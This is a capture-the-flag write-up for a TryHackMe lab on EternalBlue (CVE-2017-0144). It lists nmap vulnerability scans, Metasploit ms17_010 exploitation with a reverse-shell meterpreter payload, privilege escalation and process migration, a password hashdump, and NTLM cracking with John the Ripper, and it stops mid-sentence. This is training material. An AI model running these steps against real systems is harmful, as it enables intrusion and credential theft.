

Eternal-Blue-CVE-2017-0144 THM-Write-Up

Authored by -Mitsu

This room will require a good understanding of Nmap, Metasploit, and JohnTheRipper. 

So to begin this CTF lets start with booting up the Attack Box, and the target machine.
Please allow 3-5 Minuites for both virtual machines to Boot properly. 

This write up will be broken into a few diffrent phases based off the diffrent MITRE ATT&CK Tactics used. 

**Active Reconnaissance with Nmap (Recon)**

lets start with some basic active recon using nmap. Specifically we want to enumerate the versioning of the service that is running on the target's ports. 

Start by scanning the Target Server to identify open ports. 

    "nmap -sV 10.66.161.70"  

Here we have the scan results from nmap
	

perfect, now we can understand which ports are open and the services that are running on thoes ports. 

Now lets scan the services we found to check if any of them are vulnerable.  

We will use nmap's scripting engine to assist us.  
nmap Syntax: nmap -p {port} --script vuln {targetIP}

    namp -p 445 --script vuln 10.66.161.70

here we can see that the the scan came back with a found vulnerability!

now it's time to use our tools to eplore this vulnerability. 

**Gain Access with Metasploit (Initial Access)**

Start a new tab in your terminal session, and switch over to it.
Here we will start Metasploit using the "msfconsole" command.

    msfconsole

Please allow a minuite or two for Metasploit to load. 

Once loaded, lets start by finding the exploitation we will run against the target machine.

We can do this by using the "search" command followed by the exploit we are looking for as shown in the example below.

    search ms17_010

Now we have our results queried, lets select the exploit by using the command  "use 0"
This will load the exploit, allowing us to configure it for the specific target. 

    use 0

For us to understand how this exploit needs to be configured we will use the "info" command and it will show us all the information about this exploit.

    info

Now pay attention to the "basic options" section, as these are what we need to configure. Specifically the ones that show as required. 

In the image below, we are required to the the RHOSTS option for this exploit to work. 

we set the RHOSTS by using the command "set RHOSTS {Target IP}"

    set RHOSTS 10.66.161.70

Lets check the module configuration again with the "info" command to make sure we set our target correctly.

    info

Now we need to set the payload. By default this will be set to windows/X64/meterpreter/reverse_tcp and this is exactly what we need. This payload will have the machine connect back to use with a reverse shell. 

Now its time to execute the exploit and deliver the payload. Execute this by using the 'run" or "exploit" command. 

    run

Note: Normally after executing this exploit it will connect you to a regular shell on the target that would look like "C:\windows\system32". 

**Esclate with Metasploit (Privilege Escalation)**

Above you can see that the exploit worked, and we now have a shell on the target machine. For now lets background this session using the Ctrl+Z on the keyboard. 

Background session 1? [y/N] y

    y

(i know my example shows the shell session id as 2, lets pretent the id is 1)

Now we need to upgrade our shell session to a Meterpreter session. We can do this by using the post exploition module called Shell_to_meterpreter. 

search "shell_to_merterpreter" to find the module. 

    search shell_to_meterpreter

select it with the command "use 0"

    use 0

it should look like the image below. 

Now that we have the module loaded, lets look at the configuration of the module with the command "info"

    info

Here we can see that the "session" is a required field for this module to work. Good thing we have a session sitting in the background.  We can view our sessions with the 'sessions" command. Select the session we created earlier. (should be session id 1)

    sessions
    
Set the session to 1 with the command "set SESSION 1"

     set SESSION 1

Now we can run our post exploit using the "run" or "exploit" command. 
once the payoad has executed it will create it's own session.

We have our Meterpreter session connected on the target machine now.

Lets now switch to our elevated Meterpreter session with the command "sessions -i {session_id}"

    sessions -i 2

 Start by verifying that we have esclated to NT Authority/System. Run the "getsystem" command to confirm this. 

    getsystem

Run the "ps" Comand and lets take a look at the running process list. 

    ps

looking at the list of running process's above, Pick one that is running as the NT AUTHORITY/SYSTEM user, and take note of the PID. 

lets migrate our session onto that PID using the "migrate {PROCESS_ID}" command. 
 This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or pick a diffrent PID.

    migrate 488

 in this example you can see my first Migration to the PID 488 for svchost.exe failed, but the second attempt to migrate to powershell was successfull.

**Cracking with JohnTheRipper (Credential Access)**

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so.

    hashdump

Copy the Jon's hash to the clipboard and now open another tab on your terminal. Switch to that new terminal tab. 

We need to save the copied hash as a txt file for john to crack. 
To open our text editor run the command "nano".

    nano

Paste your copied hash. Ctrl+Z to Exit the text editor and Y to save changes. Name your file "jonhash.txt".

Run the "ls" command to verify that the hash txt file is in your working directory. 

Before we can crack this hash, we need to understand what type of hash this is. 

lets enumerate the hash with jonh using the "john --show=type jonhash.txt" command

    john --show=type jonhash.txt

Here we can see that the hash is a "NTLM" (New Technology LAN Manager) type of hash. 

To crack the hash we run the command "john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt  jonhash.txt"

    john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt  jonhash.txt

The syntax for this is john --format={format} --wordlist={wordlist} {target txt file} 

Additional Flags!!!! 